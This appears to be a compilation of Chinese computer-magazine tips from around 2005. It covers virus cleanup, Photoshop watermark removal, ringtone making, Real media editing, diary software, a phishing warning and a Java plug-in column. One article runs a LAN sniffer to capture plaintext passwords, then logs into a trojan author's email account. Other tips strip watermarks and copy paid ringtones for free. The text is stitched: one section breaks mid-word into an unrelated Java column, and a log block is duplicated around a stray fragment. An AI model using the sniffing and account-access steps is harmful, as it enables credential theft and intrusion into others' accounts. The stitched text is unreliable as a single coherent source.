凡是该文件感染的病毒全都是引导区病毒，报告的病毒名称一般为Polyboot和WYX或带有Boot字样。SUHDLOG.DAT和SUHDLOG.BAK文件是安装操作系统时，程序自动对硬盘引导区做的一个备份文件，病毒在其中已经不起作用了，同属于“僵尸代码”，遇到此类情况直接删除掉这两个文件即可。

- 3.病毒文件在System Volume Information目录下
System Volume Information 目录是“系统还原”的备份目录，该目录受Windows 保护。如果要清除掉该目录下的病毒文件，需要首先关闭系统还原。
右击“我的电脑”，选择“属性→系统还原”，勾选“在所有驱动器上关闭系统还原”前面的检查框然后按“确定”退出。一般情况下，里面的还原点会全部被删除，病毒文件也会一通被杀掉。

- 4.Prefetch目录下的PF文件感染病毒
该目录下的文件被称为预存取文件。Windows XP为了提高程序运行的效率，会将常用程序在内存中的部分内容镜像成扩展名为PF的文件，以后再次运行此程序便可以提高速度。如果程序本身携带有病毒，则生成的*.PF文件也可能会带有病毒的特征代码。但PF文件本身并不可执行，因此当查到此种文件带有病毒时可以不去理会，当然也可以选择直接将文件删除。

（瑞星工程师 史瑀）

## 妙手回春，还图像本来面目

我们在网络上可以找到很多漂亮的图片，但遗憾的是，许多网站的图片上都被加上了水印，这些水印往往是半透明的文字或图案，虽说并没有完全遮盖住下面的图像，但总是有种犹抱琵琶半遮面的感觉，看图不够尽兴。下面就向大家介绍一种使用Photoshop调整层去除半透明图片水印的方法，希望可以让各位的图片收藏更加完美。



### 第一步

运行Photoshop，打开一张带有水印的图片。为了充分展示本例的效果，笔者自己制作了一张带有较夸张水印的图片（见图1）。

### 第二步

首先要把图像中的水印部分选取出来。在工具箱中右单击套索工具，在弹出的子工具箱中点选磁性套索工具。然后在通道调板中分别点击红、绿、蓝三个通道观察一下，选择水印文字与图像的反差较大的那个通道进行操作（较大的反差有利于磁性套索的自动选取，本例选择的是“蓝”通道）。先在字母C的顶部单击一次鼠标定下一个起点，然后沿着字母C的边缘移动鼠标，磁性套索工具将自动进行选择，当终点与起点重叠时再次单击鼠标则选区自动闭合。按着Shift键不放，再以同样的方法选取后面的几个字母。按着Shift键是为了保持前面所作的选区不会丢失，其中字母a的中间要从选区中抠除，可按住Alt键之后再勾选中间的部分就可以将这部分从选区中“挖”出去了（见图2）。



### 第三步

磁性套索工具选取得可能不是太精确，可按 Q 键进入快速蒙版状态，这时不在选区之内的图像将被一层半透明的红色所遮盖。在蒙版状态下可以像编辑图像一样编辑选区，按 D 键恢复默认的前景、背景色，然后在工具箱中点选橡皮工具（快捷键为E），将水印文字内部的红色擦掉，如果不小心擦到了水印文字的外面，可按 X 键调换前景、背景色，再把多擦掉的部分涂成红色。编辑好蒙版后，按 Q 键回到正常状态，这时会发现水印文字选区比刚才精确多了。

### 第四步

水印文字选取出来后，接下来要调整这部分的图像色彩。由于水印是一层半透明的遮盖，因此它下面的图像并没有失去本身的色彩属性，只是变得有些黯淡或者偏色，我们可以使用类似调整照片色彩的方法进行调整。点击“图层→新调整层→色阶”菜单命令打开新图层对话框，直接单击其上的“好”按钮又会打开一个色阶对话框，确保已选中“预览”复选框，然后一边向右侧拖动黑色滑块（即暗调滑块）一边观察图像窗口中的情况，当水印部分的色调与图片的其他部分基本相符时即可停止。还可以继续微调中间的灰色调滑块及亮调滑块以达到更好的效果，最后单击“好”按钮。

- 小提示：如果水印是黑色的，就向左拖动白色滑块（亮调滑块）。如果水印是彩色的，情况就要复杂一些，我们可能需要分别调整红、绿、蓝三条颜色通道，而本例所调整的是在默认的RGB合成通道中进行的。如果水印是不透明完全覆盖的那种，那么本文介绍的方法就无能为力了。

### 第五步

通过色阶的调整，水印已经基本上没有了。但是由于水印文字的边缘会有一些因为抗锯齿而形成的过渡像素，若隐若现。按Ctrl+E键合并图层，然后选择工具箱中的仿制图章工具对边缘进行修复即可。有关图章工具的使用方法，大家可参阅本刊2004年22期上的《看我怎么“修理”你——Photoshop图片处理一日通》一文。

当然最终的修复效果不可能与原图片一模一样，不过如果多多尝试和练习，恢复的效果会变得越来越好的，正应了那句话：没有最好，只有更好。

（天津 奇士）

## 解决 OneKey 的安装问题

我看了 2005 年第 1 期的《比精灵更强悍一键备份/恢复多分区》，感觉很不错，就试用了一次，在安装中出现了一些问题，经过研究终于解决，下面与大家分享。

一台重新分区的电脑，在 C 盘安装Windows 98后，又安装了 OneKey，并进行了备份。之后开始在D盘安装 Windows XP，安装完成后，由于 OneKey 已经无法使用，就再次用 OneKey 光盘引导，并重装 OneKey，但再重启后，Windows XP 提示缺少文件，无法正常启动。经过各种测试，反复安装都没有解决。最后发现，原来 OneKey 已经提供了修复功能，只要安装完 Windows XP 后，再安装 OneKey 时，使用其提供的“修复”功能即可（见图）。



很多朋友都说在出现“please wait a moment ,the onekey system is reading start...”后就无法进行了，而一般这种电脑都是品牌机，而很多品牌机已内置了一键恢复系统，如果再安装 OneKey 就会出现问题，对于这种情况，需要先用 PQ Magic 删除已有的隐藏分区。另外，建议重新格式化分区，重装系统，因为这些品牌机的分区格式比较特殊。

（BT 兔）

## 手机铃声DIY 尽显个性

越来越多的手机开始支持DIY铃声，某些型号甚至可以直接导入MP3或WAV铃声，但也有很多手机的铃声需要先期进行转换。下面我们就来为大家介绍一些音乐转换成手机铃声的奇招酷技，让你可以轻松拥有最炫、最酷的手机铃声。

### 真人原唱手机铃声DIY工具

软件版本:1.0
软件大小:15MB
软件性质:免费软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.newhua.com/cfan/200503/bitsringsetupt_100.exe

## 自制手机铃音

### 第一步：截取并设置铃声格式

用‘真人原唱手机铃声DIY工具’打开任意MP3文件，并按照如图1所示设置截取好铃音部分，接着选择‘铃声格式类型’，目前该软件能将WAV文件转换为MMF（限制长度7.5秒）、MP3（不限长度）及AMR（不限长度）三种格式铃声，其中三星的手机支持MMF，诺基亚手机支持的AMR，MP3格式则主要用于一些高档机型。



图1 ‘仅播放面板内容’按钮在‘录音面板’下

接着根据手机对铃声文件大小的限制设置好‘目标文件大小约束’（如果不知道，建议使用默认），如果你的手机支持大文件铃声，建议将‘音频采样率’设置得高些，这样铃声效果更好，当然采样率过高会使做出来的文件变大，不少手机对上传铃声的大小有严格限制，这点要多加注意。当全部选择好后，点击‘完成格式设置’按钮，然后再点击‘保存素材用于混音’按钮。

### 第二步：混音与调整

接下来打开左侧的铃声素材列表，选择刚才制作好的铃音加入到右侧轨道视图中。每一条音轨左侧的复选框用来确定该轨道是否参与混音，右侧是混音音量大小。为避免多轨混音时出现爆音，默认将音量设置为原始音量的50%，使用中根据自己的实际情况来进行选择。然后在下面对音轨进行低音、高音和音量进行调整（见图2）。



图2

### 第三步：生成铃声

切换至‘生成铃声’标签，输入‘铃声标题’、‘铃声作者’和‘保存位置’，并在‘选项’中设置好和弦数，最后点击‘生成铃声’按钮。这样手机铃声就制作完成了。最后我们要做的就是将制作好的铃声上传到手机中，以后手机就能使用免费的真人铃声了。

小编有话说：由于手机品牌众多，后面的将铃声导入至手机部分，我们无法统一介绍。一般这部分功能在手机的说明书中都有相关说明。只是要注意有些手机需要自己配数据线，一般的通讯器材市场都有售，而且一般20～30元；如果带软件光盘可能会稍贵一些（见图3）。



## 将收费手机铃音免费弄到手

现在很多网站都推出了铃音下载功能，但每次都要花钱，其实如果你有数据线，再加上本文，就可以免费得到这些铃声了。大家在下载铃声时都会先‘试听’一下，以辨真伪，其实当选择‘试听’后，铃声就已经下载到电脑中了，存放在‘C:\Documents and Settings\用户名\Local Settings\Temporary Internet Files’（Windows 2000/XP）中或‘C:\Windows\Temporary Internet Files’（Windows 98）中。因此，我们要做的就是在‘试听’前，先将Internet磁盘缓存中所有文件删除（打开IE，选择菜单中的‘工具→Internet选项’，点击‘删除文件’按钮即可），接着打开Internet临时文件夹，然后再选择‘试听’，这时再观察临时文件夹（有时要按‘刷新’一下），你会发现多出了一些文件，将其中音频格式的文件复制出来（大多为MIDI、MP3、WAV等格式），再利用铃声转换软件将它转换成自己手机支持的铃声格式即可。当然，也可以用‘录音机’程序将此音乐录制下来，从而免费得到它。

## 小提示

+   ★收费铃声下载网站:http://mms.163.com、http://mms.tom.com、http://mms.sina.com.cn

## 手机铃声小常识

### ★铃声支持格式

铃声格式是根据手机厂商所提供的芯片来定的，目前常见的手机铃声有MIDI、MMF（三星）、ARM（索爱、诺基亚等）、MP3、WAV等。支持和弦的手机98.7%支持MIDI，74%支持MMF，联通大部分手机支持PMD。与此相应的就是同一格式之间的不同版本。有人会问：‘我的手机明明支持MMF，但为什么没法用？’首先你除了要知道手机支持哪种格式外，还要知道它对应的是这个格式的‘第几代’。比如常见的MIDI格式就有两种，目前标有SP-MIDI的文件为可以自适应手机的和弦数，推荐使用这种MIDI铃音文件。而MMF也分为MA1、MA2、MA3、MA5几种，而PMD分PMD1.1、PMD2.0、PMD3.0等。

### ★手机铃音专门制作工具

除上面介绍的‘真人原唱手机铃声DIY工具’外，还有一些小工具，也能完成手机铃音转换。
MMF、MLD、PMD格式：推荐使用PsmPlayer，其下载地址为http://www.newhua.com/cfan/200503/psmp382chs.zip。使用简单，用音频文件直接转换即可。
IMY、EMY格式：是爱立信公司早期的看家铃声格式，可使用Melody Composer制作，下载地址为http://mirror.nt-do.de/melodycomposer.zip。
AMR格式：索爱T618、T628、Z608等手机要想实现真人语音铃声就需要使用AMR格式，要转换AMR格式，推荐使用‘真人原唱手机铃声DIY工具’，当然也可以使用Nokia Multimedia Converter Pro，其下载地址为http://soft.joyes.com/soft/nMMConverter_v2_0.rar。
★编辑音频文件 前面介绍的除‘真人原唱手机铃声DIY工具’外的工具无法编辑音频，所以建议使用Nero带的Nero Wave Editor来截取和转换MP3音乐，只要按照方法，打开MP3音乐后，再选中截取部分，并保存为‘PCM Wav file’类型即可。

（心随移动 辽宁 小新）

## 烦人的网页请走开 不要打扰我看片

读者蓝光：我在看一些Real格式的视频影片时，经常是看着看着就打开一个网页，让人非常心烦，请问这是怎么回事呢？（读者蓝光选题奖50元）其实这个问题是因为该Real文件包含的剪辑信息（Events）所引起。当你在制作Real的音频或视频格式时，可以添加一些剪辑信息，比如网址，图片等，下面就为大家介绍一下如何去除或添加Real中的网址链接。



使用Helix Producer Plus提供的rmevents.exe工具来去除Real媒体的信息

实战：现在手中有一个文件名为118.rmvb的动画片，每到第8分钟就会打开一个电影下载网站。下面就来解决这个烦人的问题。
第一步：从http://www.skycn.com/soft/1272.html下载Helix Producer Plus，并将它安装至C:\Program Files\Real\Helix Producer Plus目录下。
第二步：进入118.RMVB所在目录，新建一个名为events.txt的空白文本文件。
第三步：打开‘记事本’，输入如下内容：并保存为qu.bat（见图），注意####中的内容为注释，不必输入。
‘C:\Program Files\Real\Helix Producer Plus\RealMediaEditor\rmevents.exe’ -i 118.rmvb -e events.txt -o 118a.rmvb #### 其中 -i表示输入的文件，-e表示剪辑信息（Events）文件events.txt保存路径，-o表示输出的文件####
第四步：运行qu.bat，然后删除原来的118.rmvb，将新生成的118a.rmvb改名为118.rmvb即可，现在用RealPlayer看看，就不会再弹出网页了。

```
‘C:\Program Files\Real\Helix Producer Plus\RealMediaEditor\rmevents.exe’ -i 118.rmvb -e events.txt -o 118a.rmvb
```

（安安）我的显示器在你的机器里

MaxiVista 是一款非常特别的软件，它可以将一些闲置的电脑通过网络变成显示器扩展工具。只要你的两台电脑都连到了网络中，根本不用视频线，就能实现双显示器扩展了。

使用 MaxiVista 的好处

- 两台笔记本电脑可以实现显示器扩展，如果通过无线网络连接，更可实现无线双显示器扩展。
- 在进行显示器扩展的同时，另外一台电脑可以随时切换使用，非常方便。

MaxiVista 小档案
软件版本: 1.5.3
软件大小: 1814KB
软件性质: 共享软件
适用平台: Windows 2000/XP/2003
下载地址: http://www.maxivista.com/maxivistademo.zip
软件备注: 未注册版软件只能使用 30 天或使用 100 次。

实战: 现在有一台笔记本电脑 (IP 为 192.168.0.45)，一台台式机 (IP 为 192.168.0.74)，要将笔记本电脑的显示器扩展到台式机上。

第一步: 将 MaxiVista 下载后，进行解压，得到两个可执行文件，MaxiVista_Setup_PrimaryPC.exe 及 MaxiVista_Setup_SecondaryPC.exe。

第二步: 先在笔记本电脑上安装 MaxiVista_Setup_PrimaryPC.exe，在安装最后，会出现 Windows 认证提示窗口，继续安装即可，然后重新启动电脑。

第三步: 在台式机上安装 MaxiVista_Setup_SecondaryPC.exe 后，重启电脑。

第四步: 在笔记本电脑上运行快捷方式 MaxiVista Demo Server，在台式机运行快捷方式 MaxiVista Demo Viewer，这时两台电脑的系统托盘内都会显示出软件图标。

第五步: 在笔记本电脑上右击系统托盘图标，选择 Configuration → Network Options (配置 → 网络选项) (见图 1)，然后点击 Manual (手动) 按钮，设置好台式机的 IP 地址 192.168.0.74。

第六步: 在笔记本电脑的桌面空白处右击，选择“属性”，在弹出窗口中点击“设置”标签，然后从“显示”下选择“Maxi_Vista_Demo_Driver 上的 (默认监视器)”项，设置好“屏幕分辨率”，然后勾选“将 Windows 桌面扩展到该监视器上”项，“确定”即可 (见图 2)。这时在台式机的屏幕上就可以看到已经笔记本的屏幕扩展了。

小提示

右击笔记本电脑系统托盘软件图标，选择 Enable Secondary Display (激活第二显示器)，也可将显示器扩展打开。

使用注意事项

### 1. 关于台式机的系统

MaxiVista 的服务器端 (即实战中笔记本电脑所装软件) 只能安装在 Windows 2000/XP/2003 中，但扩展端 (即实战中台式机所装软件) 可以安装在 Windows 98/ME/NT4/2000/2003/XP 中的任何一种系统上。

### 2. 配置 Windows XP 网络防火墙

由于软件要通过网络访问其他电脑，所以如果你在 Windows XP 中启用了 Windows XP 自带的网络防火墙，那么需要进行一些配置: 右击“网上邻居”，选择“属性”，然后右击“本地连接”，选择“属性”，点击“高级”标签下的“设置按钮”。在弹出窗口中点击“添加”按钮，打开“服务设置”窗口，在“服务描述”中输入“MVTCP”，在“在您的网络上主持此服务的计算机的名称或 IP 地址”中输入扩展端电脑的 IP 地址，如 192.168.0.74，在“此服务的外部端口号”及“此服务的内部端口号”中同时输入“5999”，并选择“TCP”项，完成后，点击“确定”(见图 3)，用同样的方法添加 UDP 的 5950 端口。

注意: 不同版本 MaxiVista 所用的端口号是不同的，具体对应的端口号可以参考右表 (注意两端都要进行此设置)。

| 版本 | TCP | UDP |
|---|---|---|
| 试用版 | 5999 | 5950 |
| 完全版 | 6000 | 5951 |
| 专业版 | 5998 | 5949 |

### 3. 关于双机共用

MaxiVista 的扩展端程序实际是作为一个全屏的应用程序，所以只要点击一下扩展端的鼠标，就可以切换回本地电脑了。

(北京 赵志强)

为 Real 媒体添加视频热点

可能不少朋友都看过一些 Real 的视频，只要到特定的时间点击特定的位置，就会打开一些主页，这是如何实现的呢？其实这就是 Real 媒体特有的“热点”功能。当用户在播放包含热点功能的视频媒体时，在指定时间点击指定位置就可以实现不同的功能，比如播放另外一个在线的视频流媒体，或是打开指定网页或是跳至当前视频的指定时间。

实战: 同样是 118.rmvb 文件，在影片的前 2 分钟时，点击视频窗口左上角 240 像素 x 360 像素矩形范围内的任意位置，都将会跳至 2 分钟后，而 2 分钟至 4 分钟之间再次点击该区域则会打开 http://www.cfan.com.cn。

第一步: 在 118.rmvb 文件所在目录中新建一个文本文件，并命名为 hs.txt，文件内容如下 (见图 1)，注意 #### 中的内容为注释，不必输入。

```
DURATION=0:0:4:0
#### 表示热点持续的时间，共 4 分钟####
<MAP START=0:0:0:0 END=0:0:2:00:0 COORDS=0,0, 360,240><AREA SHAPE=RECTANGLE COORDS=0,0, 360,240 SEEK=0:0:2:00:1 ALT="跳至2:00:01"></MAP>
####MAP START=0:0:0:0 END=0:0:2:00:0 COORDS=0, 0, 360,240 表示从开始到第2分钟在左上角的位置, 建立一个240像素×360像素的区域, 只有在该区域中才能建立热点. AREA SHAPE=RECTANGLE COORDS=0,0, 360,240 表示建立一个热点, 该点为矩形, 大小及位置与刚刚建立的区域相同. SEEK=0:0:2:00:1 表示用户点击前面的热区后, 将跳至视频2:00:1的位置. ALT="跳至2:00:01" 表示当鼠标移至热点后, 在信息栏内显示的文本内容####
<MAP START=0:0:2:00:1 END=0:0:4:0:0 COORDS=0,0, 360,240><AREA SHAPE=RECTANGLE COORDS=0,0, 360,240 URL="http://www.cfan.com.cn" ALT="打开《电脑爱好者》主页"></MAP>
####URL="http://www.cfan.com.cn" 表示用户点击热点后, 将用浏览器打开 http://www.cfan.com.cn####
```

小提示

除了 SEEK 及 URL 两个参数外，你还可以使用 PLAYER 参数播放其他网络流媒体文件，比如可以写成 PLAYER="rtsp://www.****.***/movie2.rm"。

第二步: 打开刚刚安装过的 Helix RealMedia Editor 9 (安装 Helix Producer Plus 后就会出现)，选择菜单中的 File → Open RealMedia File (文件 → 打开流媒体文件)，打开 118.rmvb 文件，然后选择菜单中的 Tools → Merge Image Maps (工具 → 合并图象映射)，选择刚刚制作的 hs.txt (见图 2)。稍候软件就会完成合并，将文件保存好。

第三步: 用 RealPlayer 打开生成的文件，然后将鼠标移到指定的位置，就可以开始体验热点功能了。

小提示

使用“暴风影音”等播放软件无法使用热点及弹出窗口的功能。

(安安)

日记日记用电脑来记

据史籍考证，我国最早的日记是唐代李翱的《来南录》。古代用毛笔和纸写日记。如今，随着博客（Blog）的推出，越来越多的人开始转到网上写日记了，而那些不喜欢将自己日记公开，又不想每天去拿笔写的朋友还在继续使用电脑中的日记软件来写。

### 1. 手边的日记本

如果你不想添加任何软件，就想写日记，推荐你使用Word中的模板。只要有Office，就可以撰写日记了。我们可以从 http://www.newhua.com/cfan/200504/模板.rar 下载四个日记模板。如果你觉得这些模式太简单了，想自制一个，那也不难，只要几步就可以完成。
第一步：打开Word，先用表格工具划出一个3×6的表格，在第一行每一个单元格分别输入好“日期”、“星期”、“天气”。在第二行最左侧的单元格中输入“重要事项”。
第二步：对表格尺寸重新定义，然后用菜单中的“表格→合并单元格”项，将表格进行合并，并选中表格的最后一个表行后，右击，选择“表格属性”，然后“指定高度”为“15厘米”（见图1）。
第三步：将光标定位至“日期”后的单元格中，然后点击菜单中的“插入→域”，在“域代码”中输入“MACROBUTTON AcceptAllChangesShown 日期”（不含引号），这样只要以后点击“日期”，就可以直接替换内容了。用同样方法完成“星期”、“天气”等项的制作。
第四步：之后就是对表格等项进一步美化，最后忘了当在用Word写日记时，记得要在保存时添加好密码（见图2）。

### 2. 有网络就可写日记

有些人不仅仅喜欢写日记，还希望让其他好朋友一起分享你生活中的点点滴滴，遇到这种情况建议你建立一个Blog。除了这种方法外，这里再为你推荐一个“网络日记本”，只要你能上网，就可以登录到 http://www.diarybooks.com/ 来写日记，这里有一堆喜欢“自曝”日记的网友，相信你在这里可以找到很多志同道合的朋友（见图3）。

### 3. 声色并茂的日记本

孙MM喜欢用电脑写日记，毕竟这样很方便，而且很简单。她用过很多日记本，不过始终没有一款让她满意的，要么是隐私保护功能不强，要么是只能写一些简单的文本日记。于是她找呀，找呀，终于在网上找到了一款非常不错的多媒体日记本——DiaryOne（下载地址:http://www.sunisoft.cn/diaryone/diaryone_setup_cn.exe），这款软件非常不错，要说不好之处，那也只能说是未注册版，仅能使用20天。
这天，孙MM与往常一样打开了DiaryOne，输入了密码，打开了自己的日记本。进入了软件，孙MM先点击“天气”①按钮，先把今天的“大风”给“记”下来。
别看今天刮大风，但孙MM还是挺高兴，先写个标题“今天过的不错”，然后还不忘使用“素材库”②下的“表情”功能插入一个漂亮可爱的表情，当然作为今天的标题，自然是要使用“字体”及“字体颜色”③按钮来装饰一下啦。然后，就是继续写日记了，当热中间少不了用“插入表情”④按钮及“素材库”中的“插画”项添加很多卡通画。由于孙MM买了闹铃声音很特别的小小闹钟，为了让日记更有意思，孙MM让小闹钟响起了闹铃，同时，点击了软件中的“录音”⑤按钮，把这段有意思的声音记录了下来。是不是很简单？只用了几下，一篇声色并茂的日记就完成了（见图4）。

小提示

- ★ DiaryOne具有换肤功能，你可以从http://www.sunisoft.cn/diaryone/download.htm下载皮肤。
- ★ 将安装好的DiaryOne复制到移动硬盘中，然后以后在使用时，运行移动硬盘中DiaryOne目录下的DiaryOne.exe就能打开软件了。这样可以走到哪儿写到哪儿。
- ★ 如果你想要一款免费的日记软件，推荐使用“海啸电子日记”（下载地址:http://www.onlinedown.net/soft/4047.htm）。

(黄海)

制作完美的RMVB文件

本刊在《保质减量 转换RMVB格式》一文中介绍了如何利用Easy RealMedia Producer(下载地址:http://redcheek.net/erm/ermp_full.zip)制作RMVB文件，笔者在试用中出现了些小问题：将AVI文件转换后，很多电影的声音出现了杂音。再重装解码器及播放器后，问题也无法解决，后来重装了一个低版本播放器，压缩出的电影甚至没有了声音。经过分析，原来是FFDShow的声音设置问题。我所用的播放器为暴风影音，因此就在其中进行了调整。
点击“开始→程序→暴风影音5→暴风影音综合设置”，然后点击“FFDShow音频设置”按钮，这时在窗口左侧选择“混音→输入/输出”项，在窗口右侧的“音频处理允许的采样格式”下勾选好“32位整数”、“24位整数”和“16位整数”（其中必须要勾选“16位整数”）即可。
其实在FFDShow Audio的属性说明中，已经提到“在速度较慢的电脑中，为了保证其兼容性，除了16位整数外，不要选择其他任何项”。再加上笔者的电脑配置不是很高，所以使用较低的“16位整数”才能保证兼容性。
(80286)

小心！“网络钓鱼”就在你身边

看了这个题目，肯定很多人不禁会问什么是“网络钓鱼”。“网络钓鱼”，英文称作Phishing(实施诈骗的人叫Phisher)，该词来源于“Fishing”(钓鱼)。
现在的“网络钓鱼”是指攻击者利用欺骗性的电子邮件和伪造的Web站点来进行诈骗活动。受害者往往会被诱骗，泄露自己的个人信息和财务数据，包括个人的真实信息、联系方式、电子邮件等，甚至还可能包括银行卡号、账户和密码等。在国内，“网络钓鱼”已经不是什么新鲜事物了。最近，一些网络骗子打着易趣的旗号大发电子邮件进行网络诈骗。他们以用户被抽中奖为名，要求用户提供牡丹卡号，开户证件及开户姓名，并留下如ebay-master@eyou.com这类的用邮箱。
如果用户发送了真实信息，那么则很可能被盗用。
目前，类似的通过假冒电子邮件、网站进行网络诈骗的事件越来越多，在这里安全专家建议大家做到以下几点来对“网络钓鱼”进行防范：①安装个人防病毒软件、个人防火墙软件并更新到最新版本；②经常对电脑进行检查，警惕任何异常情况；③对陌生人发来的索取账号类电子邮件、短信不予理睬；④对好友通过QQ、MSN Messenger、电子邮件等发来的登录某网站的信息要进行核实；⑤可以考虑采用非主流浏览器及电子邮件客户端软件；⑥提高个人安全防范意识，经常登录安全厂商官方网站，了解最新的安全资讯。
(瑞星工程师 史瑀)

小心被黑！木马生成器碰不得

2005年注定是网络游戏盛行的一年，木马这个名词我想各位一定不陌生吧？游戏账号被人偷窃屡见不鲜。很多玩家因为报复的心理也想方设法去偷取其他人的号，于是木马横行，但其实……
现在，网上有很多盗号木马生成工具，只要设置好E-mail的用户名及该E-mail的密码，就可以盗号了。可你是否知道这个木马是包含后门的？在你用它来帮你盗号的同时，盗取的用户名及密码也都会发送给木马作者一份，而我们就是要利用嗅探工具来得到这个木马作者所用E-mail的用户名及密码。然后，来个“为民除害”。最后希望大家不要使用木马，不然害人的同时还会害己（有些木马还会盗取你的账号及密码）。

> 注：本文仅进行技术研究，请勿用于非法活动。

下面就以一款针对某网络游戏的木马来做分析，来看看如何得到木马中的一些“隐藏”信息。首先要准备的一些必要的工具：①从http://www.newhua.com/cfan/200504/x-sniff.zip下载我们所需要的嗅探工具，解压后得到xsniff.exe；②一个传奇木马软件，网络上有很多。

### 1. 基础嗅探

下面就来开始抓获这个木马中的谍中谍。
第一步：点击“开始→运行”，输入“CMD”（不含引号），打开“命令提示符窗口”。
第二步：进入嗅探工具所在目录，输入“xsniff.exe –pass –hide –log pass.log”（不含引号），这样局域网里的明文密码（包括本机）都会被记录到pass.log中（见图1）。
第三步：下面打开该网游的木马，输入你的邮箱地址（见图2），点击发送测试邮件的按钮，显示发送成功后，再打开生成的pass.log文件（括号内的文字为注释，并不包含在pass.log文件中）：

```
TCP[04/08/04 19:14:10]
61.187.***.160->202.102.***.114 Port: 1140->25
MAIL FROM: <admin@1234.***>
(类似于发邮件时的信息，指信息发送的目的邮箱)
TCP[04/08/04 19:14:10]
61.187.***.160->202.102.***.114 Port: 1140->25
RCPTT <1@1.***>
(测试信箱的地址)
……
```

```
面[]内的为密码)
TCP[04/08/04 19:14:10]
61.187.***.160->202.102.***.114 Port: 1140->25
MAIL FROM: <admin@1234.***>
(类似于发邮件时的信息，指信息发送的目的邮箱)
TCP[04/08/04 19:14:10]
61.187.***.160->202.102.***.114 Port: 1140->25
RCPTT <1@1.***>
(测试信箱的地址)
……
```

第四步：现在我们已经知道了这个木马是使用admin@1234.***邮箱来发信的，用户名是admin，密码是adminsup。于是，进入这个邮箱，删掉那些信吧。
第五步：不要以为这就结束了，木马是狡猾的，很多木马还包含一个隐藏后门。执行刚刚生成的木马服务器端（没有手动清理病毒能力的读者请勿轻易尝试，并对系统进行备份，以便还原）。
第六步：使用前面的命令，让xsniff开始嗅探，进入该游戏，随便申请一个ID，接着退出，再看看pass.log文件。

```
TCP[04/08/04 19:20:39]
61.187.***.160->61.135.***.125 Port: 1157->25
PASS: YWRtaW5zdXA=[admin]
TCP[04/08/04 19:20:40]
61.187.***.160->61.135.***.125 Port: 1157->25
MAIL FROM: <admin@12345.***>
```

看到了吗？木马终于漏出了狐狸尾巴，用户名为admin，密码为admin，邮箱是为admin@12345.***，这个邮箱才是作者的后门程序，木马真正的后门。
第七步：最后，将该邮箱里的盗号邮件清除，然后恢复系统。
最后：笔者想告诫各位想用木马来盗别人的账号的朋友：害人之心不可有！因为，在加害别人的同时，你自己也正在被伤害……

（河北 香草天空）

自制只有一个文件的绿色软件

绿色软件不用安装就能直接使用，因此受到不少人的喜爱，这些软件通常采用压缩包形式供人下载，下载并解压缩后还是有一大堆文件和目录，如果将绿色软件所有文件和目录都封装成一个可执行文件，以后只要双击它就能运行并使用，是不是很COOL，很方便呢？下面笔者为大家介绍两种方法，用它们来制作只有一个文件的绿色播放器GreenMPC(源文件下载地址:http://www.newhua.com/cfan/200503/GreenMPC.rar，下载后解压缩）。

### 1:专业软件——MoleBox Pro

MoleBox Pro小档案
软件版本:2.2.6
软件大小:876KB
软件性质:共享软件
适用平台:Windows 9x/XP/2003
下载地址:http://www.molebox.com/MoleBoxProSetup.exe
软件备注:具有加密功能，有15天试用限制。

第一步:启动MoleBox Pro，用Executable(执行)后的Browse(浏览)按钮选择绿色软件中的主运行程序，即mplayerc.exe，在Pack to(封装至)中输入生成文件的文件名，这里填入“GrennMPC.exe”(见图1)。
第二步:点击Add file(添加文件)按钮添加除主程序外的所有文件。
小提示
MoleBox Pro并不适用所有程序，其在运行解压时无法自动调用外部库，无法自己调用包内的INI参数配置文件，所以配置INI文件必须单独放在外面，如果在这里一起打包封装，程序很有可能无法正常运行。另外在添加子目录后，可点击Set TREE mode(目录树形式)按钮，显示添加文件的完整目录数。
第三步:点击Options(选项)按钮对压缩程序进行设置。这里按照软件的默认设置就即可，最好将Use strong encryption(使用加密)项去除，否则运行程序速度会慢很多。
第四步:点击主程序窗口中的Pack To Box(封装)按钮对程序进行打包，这样MoleBox Pro就会自动在mplayerc.exe目录下生成一个GreenMPC.exe的文件，它就是我们要的单文件绿色软件。
用MoleBox Pro生成的绿色软件，在运行时会产生临时文件到TEMP目录，但调用了系统函数，隐藏了临时文件。就算是看到，也不会是源程序，而是一个个包内容。当退出后，会自动将临时文件删除。

### 2. 压缩软件兼职封装软件——WinRAR

第一步: 在“资源管理器”中，进入GreenMPC.rar解压缩后的目录，按Ctrl + A全选所有文件，接着右击，在弹出菜单中选“添## Java 咖啡馆(11)——Java 插件技术

### 1. Java 插件技术

Java插件技术(Java Plug-in technology)是一个神奇的设计，它架起了时下流行的浏览器(包括Internet Explorer，下面简称IE，Netscape Navigator，下面简称NN以及Mozilla)与Java平台之间的桥梁。也就是说，只需要一个浏览器，它不必内置Java虚拟机(比如与Windows XP捆绑销售的IE 6)，也不必特意安装Java运行环境，在打开包含Java Applet的网页时，只要按照浏览器提示安装这个Java插件后便能任意运行Applet了，而这个安装过程与安装Macromedia Flash、3721等插件一样简单。

要知道，Java插件技术与我们上回咖啡馆中介绍的运行Applet的方法有着本质上的区别。
在上回Java咖啡馆中，我向大家介绍了Applet编写过程，以及在IE中运行Applet的方法。回忆一下，我们是通过在HTML网页中嵌入<applet>标签实现的。实际上，如果你的系统中已经安装Java运行时环境时，当浏览器遇到<applet>标签时，浏览器便会启动Java虚拟机，从网上下载Applet的class文件后执行它。这种方法有两个明显缺点：第一，如果系统中如果没有Java运行时环境，浏览器便会名正言顺地怠工，拒绝执行Applet；第二，如果系统中的Java运行时环境版本过低，而Applet又使用了新版本中的新技术，这也将导致Applet运行不正常。

而Java插件技术可以很好解决这两个问题。本质上，Java插件技术是借助浏览器的插件机制给客户端安装或更新Java运行时环境的技术。目前流行的浏览器都有插件机制，比如Mozilla、NN的plug-in技术，IE的ActiveX构件技术。当这些浏览器遇到网页中Java插件标签时，会自动连接到Sun公司的服务器下载或者更新Java运行时环境，然后可以运行Applet程序了。省却了用户自行安装Java运行时环境的不便，这真是一个漂亮的实现。

### 2. 通过Java插件技术调用Applet

Java插件技术不能依靠<applet>标签调用Applet了，你必须像调用其他NN的插件或者IE的ActiveX构件一样调用Java插件。
还是拿例子来说明一下。我们原先的sample.htm网页是这样调用Applet的:

```html
<applet code="NewsApplet.class" codebase="." width=480 height=384>
<param name="from" value="Prince Charming">
<param name="to" value="Cinderella">
</applet>
```

对应于NN的Java插件，需要这么写:

```html
<embed type="application/x-java-applet;jpi-version=1.5"
code="NewsApplet.class"
width=480
height=384
pluginspage = "http://java.sun.com/products/plugin/index.html#download"
from="Prince Charming"
to="Cinderella">
</embed>
```

而对应于IE的ActiveX构件技术的Java插件，需要这么写:

```html
<object classid="clsid:CAFEEFAC-0015-0000-0000-ABCDEFFEDCBA"
